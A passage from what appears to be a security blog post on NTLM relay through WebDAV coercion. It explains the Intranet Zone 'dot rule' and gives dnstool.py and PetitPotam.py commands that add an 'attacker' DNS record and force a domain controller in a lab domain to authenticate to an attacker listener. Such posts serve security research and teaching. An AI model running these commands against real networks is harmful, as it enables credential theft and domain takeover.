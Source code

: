 
<p style="margin-bottom:0.25em">
It's important to mention the Intranet Zone. If a URL is handled as an Intranet Zone, WebDAV clients automatically start authentication. The most important rule is described in <a href="https://specterops.io/blog/2025/04/08/the-renaissance-of-ntlm-relay-attacks-everything-you-need-to-know/">"The Renaissance of NTLM Relay Attacks: Everything You Need to Know"</a> by SpecterOps.
</p>
<blockquote style="margin-top:.5em">
The PlainHostName Rule (aka “The Dot Rule”): If the URL’s hostname does not contain any dots
</blockquote>

To satisfy this rule, we can add a DNS record or perform LLMNR spoofing. We also need to properly specify a listener. By default, Authenticated Users can add DNS records.
```sh
# Add a DNS record
python3 dnstool.py -u kawakatz.local\\coward -p 'P@ssw0rd' -a add -r attacker -d <attacker ip> dc2.kawakatz.local -dns-ip <dc ip>

# This won't work
python3 PetitPotam.py -d kawakatz.local -u coward -p 'P@ssw0rd' <attacker ip>@80/share dc1.kawakatz.local
python3 PetitPotam.py -d kawakatz.local -u coward -p 'P@ssw0rd' attacker.kawakatz.local@80/share dc1.kawakatz.local

# This works
python3 PetitPotam.py -d kawakatz.local -u coward -p 'P@ssw0rd' attacker@80/share dc1.kawakatz.local
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/51.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Adding a DNS record</div>
</div>
<div style="text-align: center; margin: 20px 0;">
